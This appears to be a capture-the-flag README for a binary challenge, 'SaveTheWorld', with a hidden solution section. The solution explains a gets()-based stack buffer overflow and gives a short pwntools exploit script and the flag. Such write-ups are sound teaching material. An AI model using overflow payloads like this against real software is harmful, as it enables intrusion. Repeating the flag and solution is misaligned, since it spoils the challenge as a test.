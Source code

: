 # SaveTheWorld

### 📄 Description

We need your help to save the world. The selected fighter is too weak, do you have something to say about it?

### ⚙ How to run
```bash
./SaveTheWorld
```

### ⛔ Rules
- You cannot patch this binary. 
- Do not modify auxil1 and auxil2

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 72 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./SaveTheWorld"
p = process()
p.sendline(b"A" * 72 + b"Jotaro!!" + b"Star Platinum!!!" + b"HORA" + b"9999")
p.recvuntil(b"Congratulation, you won!!!")
os.system("grep .*{.*}.* victory_recap.txt")
```

<h3> 🚩 Flag </h3>

```plain
SPRITZ{Yare_Yare}
```
</details>